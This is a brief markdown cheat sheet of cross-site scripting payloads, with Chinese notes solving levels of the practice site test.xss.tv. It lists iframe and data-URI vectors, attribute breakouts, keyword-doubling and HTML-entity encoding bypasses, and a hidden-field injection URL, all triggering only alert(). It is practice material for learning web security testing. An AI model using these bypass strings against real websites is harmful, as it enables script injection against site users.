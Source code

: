 # xss payload

- <iframe src="data:text/html,<script>alert(1)</script>"></iframe>

- <img src=1 onerror=alert(9)

- <iframe onload="alert(1)"></iframe>

- <iframe src="javascript:alert(1)"></iframe>

- <iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>

- <iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>

- <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe> chrome下


## http://test.xss.tv/level1.php?name=  firefox下 xss练习

others http://www.cnblogs.com/r00tuser/p/7407459.html

- 1 <span onclick =alert(9)>a</span>

- 2 " onclick=alert(9) "

- 3 ' " onclick=alert(9) " >

- 4 ' " onclick=alert(9) " >

- 5 ' " > <a href=javascript:alert(9) >aa</a>"

- 6 ' " > <a hRef=javascript:alert(9) >aa</a>"

- 7 ' " oonnclick=alert(9) "'

- 8 javascript:alert(9) &#X十六进制编码：  &#x006a;&#x0061;&#x0076;&#x0061;&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;&#x003a;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x0039;&#x0029;

- 9 前置编码 ：&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert('http://')

- 10 http://test.xss.tv/level10.php?keyword=  这题比较隐蔽

	分析里面input:hidden 提交里面的字段

	payload:http://test.xss.tv/level10.php?keyword=aa&t_sort=%22%20type=text%20onclick=alert(9)%20%22